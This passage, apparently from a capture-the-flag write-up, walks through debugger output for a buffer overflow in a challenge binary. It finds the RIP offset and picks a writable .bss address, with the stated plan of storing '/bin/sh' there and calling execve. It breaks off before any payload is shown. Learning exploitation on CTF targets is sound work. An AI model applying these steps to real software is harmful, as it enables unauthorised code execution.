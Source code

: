 ```asm
As a token of appreciation, how about pwning me?

Program received signal SIGSEGV, Segmentation fault.
[ Legend: Modified register | Code | Heap | Stack | String ]

──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "chall", stopped 0x4005d4 in vulnerable (), reason: SIGSEGV
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x4005d4 → vulnerable()
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
0x00000000004005d4 in vulnerable ()
gef➤  x/xg $rsp
0x7fffffffde38:	0x6161616161616166
gef➤  pattern search 0x6161616161616166
[+] Searching '0x6161616161616166'
[+] Found at offset 40 (little-endian search) likely
[+] Found at offset 33 (big-endian search) 
gef➤  
```

Now, since we control over the RIP, time to use a `.bss` address to read string `/bin/sh` which we will be passed to first argument of `execve` later on.

### Storing `/bin/sh` at a `.bss` address

Since, we want to do `execve("/bin/sh", 0, 0)` but we don't have any memory which already have `/bin/sh` address, so what we gonna do is pick an address from `.bss` section and store the string at that particular address. Now, let's make a `pwntools` script to interact with binary and work with it, but firstly let's pick a `.bss` address with the help of `gdb`.

```asm
gef➤  vmmap
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
0x0000000000400000 0x0000000000401000 0x0000000000000000 r-x /tmp/ctf/pwn1/chall
0x0000000000600000 0x0000000000601000 0x0000000000000000 r-- /tmp/ctf/pwn1/chall
0x0000000000601000 0x0000000000602000 0x0000000000001000 rw- /tmp/ctf/pwn1/chall # I randomly picked an address from this range.
gef➤  r
Starting program: /tmp/ctf/pwn1/chall 
Welcome to the world of Pwning
I'd like to know the name of brave warrior
hello
As a token of appreciation, how about pwning me?
^C
Program received signal SIGINT, Interrupt.
[ Legend: Modified register | Code | Heap | Stack | String ]
```
Now, since we know that this binary contains a `rw-` data section, we will use it to store the `/bin/sh` at it. Let's start interacting with binary and send payload:-
